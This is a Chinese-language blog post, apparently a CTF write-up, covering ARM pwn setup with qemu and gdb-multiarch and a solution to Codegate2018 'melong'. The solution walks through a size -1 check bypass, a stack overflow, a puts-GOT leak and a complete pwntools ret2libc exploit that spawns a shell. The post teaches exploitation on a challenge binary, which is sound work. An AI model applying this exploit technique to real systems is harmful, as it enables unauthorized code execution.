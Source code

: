 ```yaml
---
layout:     post
title:      arm架构 pwn入门之路
subtitle:   学习arm架构下pwn题目的调试
date:       2020-11-16
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - arm pwn
    - wp

---
```


要期中考试了，水一篇ARM

## 环境搭建

网上的师傅们都讲的很详细了

我是看着[这个师傅的博客](https://www.jianshu.com/p/a7e2da50263e)装的环境

### 安装qemu

```shell
sudo apt-get install qemu
sudo apt-get install qemu-system qemu-user-static binfmt-support
```

### 安装依赖

```shell
sudo apt-get install -y gcc-arm-linux-gnueabi
sudo apt-get install qemu libncurses5-dev gcc-arm-linux-gnueabi 
sudo apt-get install build-essential synaptic gcc-aarch64-linux-gnu 
#sudo apt-get install gdb-arm-none-eabi
#sudo apt-get install eclipse-cdt
```

### 安装gdb-multiarch

```shell
sudo apt-get install gdb-multiarch
```



## 例题复现

### Codegate2018_melong

题目有libc和ld文件

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6aescr7j30km07smyx.jpg)

32位的arm小端序程序，只开启了NX保护

调试与mips下差不多

```shell
qemu-arm-static -L ./ ./melong
```

或者与pwntools联动

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1234", "-L", "./", "./melong"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr5ukg64wj30u00uc148.jpg)

有个菜单，以为是堆题，实际上是栈溢出

需要先check后才能进行其他操作

函数比较多，漏洞在write_diary函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67ufzklj31d90u0ais.jpg)

write_diary函数的第一个参数控制无符号整数nbyte，也就是read可以向栈中写入的字节，可以从mian函数中看到，就是PT函数的返回值，进入PT函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67jclbej31d30u0k28.jpg)

发现整型返回值可以由用户输入，但是要绕过`ptr == (void)exc2`的检查，追踪exc2发现对其操作是在check函数的子函数get_result函数里

check函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6sekcsjj31db0u0wql.jpg)

get_result函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr7ayqklfj30u01wbayd.jpg)

check函数限制只能check两次，而这个exc2应该是保存第二次check后bmi值的地方，要实现分配的chunk地址相等似乎有些困难，而且如果分配一个比较大的数字，需要等待sleep函数执行很久

但是看PT函数中的分支

```c
if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
```

在for循环的条件中用了强制类型转换，将size转换为无符号整数

如果让size等于-1的话，malloc会请求失败返回`NULL`，也就是0，而在第一次check之后exc2正好也是0

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr76g415pj310b0u07e9.jpg)

即绕过检查，又不用等待sleep函数，在write_diary函数中就可以随便写了

cyclic计算偏移后泄露地址

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

发现程序会崩溃，是因为puts函数在反悔的时候并不是`pop pc`，而是`pop	{r4, r5, r6, r7, r8, r9, r10, pc}`

所以需要在前面补充一些垃圾数据,才能返回main函数

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)+p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

之后就是正常的rop了

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys

context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    io = remote("",)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1237", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

def check(height, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(" : ", str(height))
    io.sendlineafter(" : ", str(weight))

def PT(size):
    io.sendlineafter(":", "3")
    io.sendlineafter("?\n", str(size))

def write(payload):
    io.sendlineafter(":", "4")
    io.send(payload)

pop_r0_pc = 0x00011bbc

check(1.76,103)
PT(-1)

pd = 'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7 + p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

check(1.82, 60)
PT(-1)
pd = 'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search("/bin/sh"))) + p32(libc.sym['system'])
write(pd)
io.sendlineafter(":", "6")

io.interactive()
```





